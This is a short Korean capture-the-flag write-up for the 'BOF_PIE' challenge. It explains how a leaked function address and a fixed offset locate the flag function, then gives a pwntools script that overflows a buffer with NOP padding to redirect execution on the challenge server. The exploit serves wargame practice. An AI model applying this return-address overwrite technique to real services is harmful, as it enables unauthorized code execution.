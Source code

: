 # BOF_PIE

문제에서 welcome 함수의 주소를 알려주므로, welcome함수와 flag를 얻을 수 있는 j0n9hyun 함수의 offset을 이용하면 해결할 수 있다.   
<br/>


```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3008)

flag_offset = 0x00000890
welcome_offset = 0x00000909

offset = welcome_offset - flag_offset

p.recvuntil('is ')
welcome = int(p.recv(10),16)
welcome = welcome - offset

payload = ''
payload += '\x90'*0x16
payload += p32(welcome)

p.sendline(payload)
p.interactive()
```
